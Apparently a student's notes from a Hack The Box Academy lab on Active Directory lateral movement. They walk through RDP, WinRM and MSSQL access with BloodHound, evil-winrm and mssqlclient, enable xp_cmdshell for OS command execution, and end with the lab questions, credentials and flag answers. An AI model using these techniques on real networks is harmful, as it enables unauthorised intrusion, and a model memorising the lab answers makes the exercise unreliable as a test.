




# Privileged Access
Typically, if we take over an account with local admin rights over a host, or set of hosts, we can perform a Pass-the-Hash attack to authenticate via the SMB protocol.

There are several other ways we can move around a Windows domain:

- Remote Desktop Protocol (RDP) - is a remote access/management protocol that gives us GUI access to a target host
- PowerShell Remoting - also referred to as PSRemoting or Windows Remote Management (WinRM) access, is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
- MSSQL Server - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

We can enumerate this access in various ways. The easiest, once again, is via BloodHound, as the following edges exist to show us what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.specterops.io/resources/edges/can-rdp)
- [CanPSRemote](https://bloodhound.specterops.io/resources/edges/can-ps-remote)
- [SQLAdmin](https://bloodhound.specterops.io/resources/edges/sql-admin)

## Remote Desktop
### Enumerating the Remote Desktop Users Group
Using PowerView, we could use the [Get-NetLocalGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-NetLocalGroupMember/) function to begin enumerating members of the `Remote Desktop Users` group on a given host. 

```pwsh
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN
```

From the information above, we can see that all Domain Users (meaning all users in the domain) can RDP to this host. Typically the first thing I check after importing BloodHound data is:

Does the Domain Users group have local admin rights or execution rights (such as RDP or WinRM) over one or more hosts?

### Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound



If we gain control over a user through an attack such as LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

### Checking Remote Access Rights using BloodHound



We could also check the `Analysis` tab and run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`. 

## WinRM
Like RDP, we may find that either a specific user or an entire group has WinRM access to one or more hosts. This could also be low-privileged access that we could use to hunt for sensitive data or attempt to escalate privileges or may result in local admin access, which could potentially be leveraged to further our access. 

### Enumerating the Remote Management Users Group

```pwsh
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access.

```pwsh
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

### Establishing WinRM Session from Windows

```pwsh
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb>
```

From our Linux attack host, we can use the tool evil-winrm to connect.

### Connecting to a Target with Evil-WinRM and Valid Credentials

```sh
masterofblafu@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend

Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
ACADEMY-EA-MS01
```

## SQL Server Admin
It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance. We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings.

We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

### Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound
Here we see one user, `damundsen` has `SQLAdmin` rights over the host `ACADEMY-EA-DB01`.



We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

First, let's hunt for SQL server instances.

### Enumerating MSSQL Instances with PowerUpSQL

```pwsh
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```pwsh
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

We can also authenticate from our Linux attack host using mssqlclient.py from the Impacket toolkit.

```sh
masterofblafu@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

We could then choose `enable_xp_cmdshell` to enable the [xp_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

### Choosing enable_xp_cmdshell

```sql
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges, depending on the target host, and use this access to continue toward our goal.

### Enumerating our Rights on the System using xp_cmdshell

```pwsh
xp_cmdshell whoami /priv
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

PRIVILEGES INFORMATION                                                             

----------------------                                                             

NULL                                                                               

Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    

SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

SeCreateGlobalPrivilege       Create global objects                     Enabled    

SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

NULL
```

## Questions
RDP to **10.129.45.32** (ACADEMY-EA-MS01), with user `htb-student` and password `Academy_student_AD!`
1. What other user in the domain has CanPSRemote rights to a host? **Answer: bdavis**
   - `PS C:\htb> .\SharpHound.exe -c All --zipfilename ILFREIGHT` → Run the SharpHound collector to gather domain informations to a zip file
   - Upload that zip file to Bloodhound and use this Cipher Query to search for user with CanPSRemote rights:
        ```pwsh
        MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
        ```
        
2. What host can this user access via WinRM? (just the computer name) **Answer: ACADEMY-EA-DC01**
   - Already shown in the Bloodhound result above
3. Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt. Authenticate to with user `damundsen` and password `SQL1234!` **Answer: 1m_the_sQl_@dm1n_n0w!**
   - Enumerate MSSQL instance:
        ```pwsh
        PS C:\Tools\PowerUpSQL> Import-Module .\PowerUpSQL.ps1
        PS C:\Tools\PowerUpSQL> Get-SQLInstanceDomain


        ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
        Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
        DomainAccountSid : 1500000521000170152142291832437223174127203170152400
        DomainAccount    : damundsen
        DomainAccountCn  : Dana Amundsen
        Service          : MSSQLSvc
        Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
        LastLogon        : 4/10/2022 3:50 PM
        Description      :
        PS C:\Tools\PowerUpSQL> ping ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL

        Pinging ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL [172.16.5.150] with 32 bytes of data:
        ```
   - Login as SQLADMIN to the ACADEMY-EA-DB01 host, enable xp_cmdshell and read the flag:
        ```sh
        $mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
        SQL> enable_xp_cmdshell
        SQL> xp_cmdshell more C:\Users\damundsen\Desktop\flag.txt
        output                                                                             

        --------------------------------------------------------------------------------   

        1m_the_sQl_@dm1n_n0w!                                                              

        NULL
        ```
